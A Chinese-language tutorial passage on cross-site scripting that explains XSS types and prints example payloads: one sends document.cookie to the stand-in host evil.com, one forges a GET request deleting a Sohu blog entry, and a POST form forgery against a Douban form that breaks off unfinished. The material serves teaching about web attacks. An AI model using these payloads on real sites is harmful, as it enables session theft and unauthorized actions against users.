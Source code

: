 # 2.跨站脚本攻击XSS

> OWASP TOP 10 威胁曾多次把 XSS 列在榜首。

## XSS 简介

跨站脚本攻击：

* Cross Site Script (XSS)。通常指黑客通过 `HTML` 注入的方式篡改了网页、插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。

XSS 根据效果不同可以分为如下几类：

1. **反射型 XSS**，或称 “非持久型 XSS”（Non-persistent XSS）。只是简单地把用户的输入 “反射” 给浏览器。
2. **存储型 XSS**，或称 “持久型 XSS”（Persistent XSS）。会把用户输入的数据 “存储” 在服务端，这种 XSS 具有很强的稳定性。
3. **DOM Based XSS**。这种 XSS 从效果上来看也属于反射型 XSS。与后者的区别是通过更改 DOM 树的方式而非执行 `JavaScript` 代码的方式进行攻击。

## XSS Payload

### 窃取 Cookie

最常见的 XSS Payload 就是读取浏览器的 `cookie` 对象：

```javascript
var img = document.createElement("img");
img.src = "http://www.evil.com/log?"+escape(document.cookie)
document.body.appendChild(img)
```

这段代码会在页面中插入一张看不见的图片，同时把 `document.cookie` 对象作为参数发送到远程的服务器。事实上，`/log` 路径不一定要存在，因为这个请求会在远程服务器的 WEB 日志中留下记录。这样就做完了一个最简单的窃取 `cookie` 的 XSS payload。

`Cookie` 的 `HttpOnly` 标识可以防止 "Cookie 劫持"，有的网站则会把 Cookie 与客户端的 IP 绑定。

### 构造 GET 请求

比如搜狐上有一篇文章，它删除文章的链接是这样的：

```
http://blog.sohu.com/message/entry.do?m=delete&id=1000
```

对于攻击者来说，则只需要构造夏敏的一个 payload 就可以发起一个删除文章的 GET 请求：

```javascript
var img = document.createElement("img");
img.src = "http://blog.sohu.com/message/entry.do?m=delete&id=1000"
document.body.appendChild(img)
```

### 构造 POST 请求

比如豆瓣上有一处的表单提交是这样两个字段 `ck` 与 `mb_text`，我们尝试模拟这个过程。要模拟 POST 请求的过程有两种方式。

第一种方式是构造一个 form 表单，然后自动提交这个表单。

```javascript
var f = document.createElement("form");
Object.assign(f, {"action": "", "method": "post"});
document.body.appendChild(f);

var i1 = document.createElement("input");
Object.assign(i1, {"name": "ck", "value": "JiUY"});
f.appendChild(i1);

var i2 = document.createElement("input");
Object.assign(i2, {"name": "mb_text", "value": "testtesttest"});
f.appendChild(i2);

```
